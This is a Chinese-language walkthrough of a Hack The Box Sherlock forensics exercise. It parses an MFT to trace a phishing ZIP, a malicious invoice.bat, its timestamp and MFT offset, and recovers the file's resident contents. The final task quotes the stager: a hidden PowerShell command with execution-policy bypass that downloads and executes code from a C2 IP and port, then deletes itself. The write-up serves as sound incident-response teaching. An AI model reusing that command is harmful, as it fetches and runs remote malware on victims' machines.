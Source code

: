 ```yaml
---
title: "Sherlocks-BFT"
date: 2024-12-28
categories: 
  - "htb-sherlock"
tags: 
  - "日志分析"
---
```


## Sherlock Scenario

在这个 Sherlock 中，您将熟悉 **MFT（主文件表）**取证。您将了解用于分析 MFT 工件以识别恶意活动的知名工具和方法。在我们的分析过程中，您将使用 **MFTECmd** 工具解析提供的 MFT 文件，使用 **TimeLine Explorer** 打开并分析解析的 MFT 的结果，并使用十六进制编辑器从 MFT 中恢复文件内容。

## Preparing

将**MFT**文件转为**CSV**文件需要用到下面这个工具

我是在Windows环境下使用的，需要将`CMD`右键设置为`管理员`使用

![](./images/image-194.png)

使用下面这个工具来进行阅读`CSV`文件

- [Timeline Explorer | SANS Institute](https://www.sans.org/tools/timeline-explorer/)

## Task1

Simon Stark 于 2 月 13 日成为攻击者的目标。他从电子邮件中收到的链接下载了一个 ZIP 文件。他从链接下载的 ZIP 文件的名称是什么？

![](./images/image-195.png)

查询文件名中包含`.zip`，然后包含`http`字样的行，发现一个压缩包文件

`Stage-20240213T093324Z-001.zip`

## Task2

检查最初下载的 ZIP 文件的 Zone Identifier 内容。此字段显示下载文件的 HostUrl，在我们的调查/分析中用作有价值的入侵指标 （IOC）。下载此 ZIP 文件的完整主机 URL 是什么？

对应的完整URL是

```
https://storage.googleapis.com/drive-bulk-export-anonymous/20240213T093324.039Z/4133399871716478688/a40aecd0-1cf3-4f88-b55a-e188d5c1c04f/1/c277a8b4-afa9-4d34-b8ca-e1eb5e5f983c?authuser
```

![](./images/image-196.png)

## Task3

执行恶意代码并连接到 C2 服务器的恶意文件的完整路径和名称是什么？

尝试搜索压缩包解压后的路径

发现一个可疑的`bat`文件

![](./images/image-197.png)

恶意文件的完整路径

```
C:\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoices\invoice.bat
```

## Task4

分析之前标识的文件的 $Created 0x30 时间戳。这个文件是什么时候在磁盘上创建的？

查找`invoice.bat`的创建时间：`2024-02-13 16:38:39`

![](./images/image-198.png)

## Task5

在许多调查场景中，查找 MFT 记录的十六进制偏移量是有益的。从问题 3 中找到 stager 文件的十六进制偏移量。

查询文件的`Entry Number`为**23436**

将其乘以**1024**（这是每一条记录的大小）然后转为**十六进制**

![](./images/image-200.png)

偏移量为：`16E3000`

## Task6

每个 MFT 记录的大小为 1024 字节。如果磁盘上的文件大小小于 1024 字节，则可以直接存储在 MFT 文件本身上。这些文件称为 MFT 驻留文件。在 Windows 文件系统调查期间，查找可能驻留在 MFT 中的任何恶意/可疑文件至关重要。这样我们就可以找到恶意文件/脚本的内容。找到问题 3 中发现的恶意暂存程序的内容，并使用 C2 IP 和端口回答。

因为我们已经有了`偏移量`，因此可以使用任意十六进制编辑器打开`$MFT`文件，我这里使用的是`HxD`

跳转到偏移量的位置往下一点，能发现驻留在文件中的恶意代码内容

![](./images/image-201.png)

大致内容如下，直接复制过来有一些空字符会看不见

```
@echo off
start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGF�W9uIGV0dw==') -UseBasicParsing|iex"
(goto) 2>nul & del "%~f0"
=
```
